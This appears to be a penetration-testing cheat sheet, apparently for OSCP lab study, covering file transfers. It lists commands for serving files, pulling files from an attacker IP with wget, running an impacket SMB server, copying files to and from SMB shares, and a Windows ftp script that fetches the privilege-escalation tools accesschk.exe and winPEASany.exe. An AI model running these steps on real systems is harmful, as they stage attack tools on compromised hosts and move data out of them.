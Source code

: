 ## File transfers
### Download files
#### Start webservers
```
sudo service apache2 start #files in /var/www/html
sudo python3 -m http.server <PORT> #files in current 
sudo python2 -m SimpleHTTPServer <PORT>
sudo php -S 0.0.0.0:<PORT>
sudo ruby -run -e httpd . -p <PORT>
sudo busybox httpd -f -p <PORT>
```

#### Download file from webserver
```
wget http://<IP>:<PORT>/<FILE>
```

#### SMB Server
```
sudo python3 /opt/oscp/impacket/examples/smbserver.py <SHARE NAME> <PATH>
```

#### Look for files in SMB
```
dir \\<IP>\<SHARE NAME>
```

#### Copy files from SMB
```
copy \\<IP>\<SHARE NAME>\<FILE NAME> <FILE>
```

#### Copy all files
```
copy \\<IP>\<SHARE NAME>\<FILE NAME>\*.* .
```

#### Copy files to SMB
```
copy <FILE> \\<IP>\<SHARE NAME>\<FILE NAME>
```

#### Linux ftp
```
If installed use the ftp package
```

#### Windows ftp
Use native program with the -s parameter to use a input file for the commands
```
echo open 192.168.119.124 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET accesschk.exe >> ftp.txt
echo GET winPEASany.exe >> ftp.txt
echo quit >> ftp.txt

ftp -v -n -s:ftp.txt
```
